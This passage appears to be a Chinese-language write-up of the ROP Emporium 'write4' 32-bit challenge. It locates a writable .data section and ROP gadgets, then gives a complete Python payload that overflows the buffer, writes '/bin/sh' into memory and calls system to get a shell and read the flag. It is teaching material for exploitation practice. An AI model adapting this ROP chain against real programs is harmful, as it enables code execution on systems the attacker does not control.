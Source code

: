 ```text
$ readelf -S write432
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
```

可以看到 `.data` 具有 `WA`，即写入（write）和分配（alloc）的权利，而 `.rodata` 就不能写入。

使用工具 ropgadget 可以很方便地找到我们需要的 gadgets：

```text
$ ropgadget --binary write432 --only "mov|pop|ret"
...
0x08048670 : mov dword ptr [edi], ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
```

另外需要注意的是，我们这里是 32 位程序，每次只能写入 4 个字节，所以要分成两次写入，还得注意字符对齐，有没有截断字符（`\x00`,`\x0a`等）之类的问题，比如这里 `/bin/sh` 只有七个字节，我们可以使用 `/bin/sh\00` 或者 `/bin//sh`，构造 payload 如下：

```python
from zio import *

pop_edi_ebp = 0x080486da
mov_edi_ebp = 0x08048670

data_addr   = 0x804a028
system_plt  = 0x8048430

payload  = ""
payload += "A"*44
payload += l32(pop_edi_ebp)
payload += l32(data_addr)
payload += "/bin"
payload += l32(mov_edi_ebp)
payload += l32(pop_edi_ebp)
payload += l32(data_addr+4)
payload += "/sh\x00"
payload += l32(mov_edi_ebp)
payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./write432')
io.writeline(payload)
io.interact()
```

```text
$ python2 run.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA(/binp,/shp0BBBB(�
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```
